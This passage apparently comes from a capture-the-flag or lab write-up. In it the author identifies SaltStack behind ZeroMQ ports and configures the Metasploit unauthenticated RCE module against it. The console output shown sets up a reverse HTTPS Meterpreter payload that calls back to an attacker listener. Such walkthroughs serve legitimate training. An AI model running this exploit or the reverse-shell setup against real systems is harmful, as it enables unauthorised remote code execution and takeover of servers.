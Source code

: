 Seems like port 4505 and 4506 are running ZeroMQ and port 8000 is running CherryPy.  After a bit of research, I found that SaltStack is using ZeroMQ as the default transport protocol. Furthermore, there seems to be a [Metasploit-module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/misc/saltstack_salt_unauth_rce.rb) available. Let us try to exploit SaltStack using Metasploit.

### Exploiting SaltStack using Metasploit

Searching for ZeroMQ or SaltStack, both shows following exploit:

```ruby
msf6 > search ZeroMQ

Matching Modules
================

   #  Name                                          Disclosure Date  Rank    Check  Description
   -  ----                                          ---------------  ----    -----  -----------
   0  auxiliary/gather/saltstack_salt_root_key      2020-04-30       normal  No     SaltStack Salt Master Server Root Key Disclosure
   1  exploit/linux/misc/saltstack_salt_unauth_rce  2020-04-30       great   Yes    SaltStack Salt Master/Minion Unauthenticated RCE
```

Let us selected the exploit and set all the required options.

```ruby
msf6 > use exploit/linux/misc/saltstack_salt_unauth_rce
[*] Using configured payload python/meterpreter/reverse_https
msf6 exploit(linux/misc/saltstack_salt_unauth_rce) > set proxies socks5:127.0.0.1:1080
proxies => socks:127.0.0.1:1080
msf6 exploit(linux/misc/saltstack_salt_unauth_rce) > show options
msf6 exploit(linux/misc/saltstack_salt_unauth_rce) > show options

Module options (exploit/linux/misc/saltstack_salt_unauth_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   MINIONS   .*               yes       PCRE regex of minions to target
   RHOSTS    172.17.0.2       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   ROOT_KEY                   no        Masters root key if you have it
   RPORT     4506             yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Master (Python payload)
```